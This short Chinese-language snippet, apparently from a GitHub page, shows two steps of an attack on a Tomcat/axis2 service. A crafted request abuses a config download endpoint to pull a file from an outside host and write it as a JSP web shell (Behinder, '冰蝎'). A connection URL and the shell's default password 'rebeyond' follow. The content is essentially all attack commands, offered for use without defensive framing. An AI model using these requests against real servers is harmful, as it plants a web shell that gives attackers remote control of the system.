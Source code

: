 写入冰蝎马

```
http://ip:8080/services/config/download?url=http://ip:8000/mm.txt&path=C:/apache-tomcat-7.0.57/webapps1/axis2/jkl.jsp
```

冰蝎连接

```
http://ip:8080/axis2/jkl.jsp
rebeyond
```








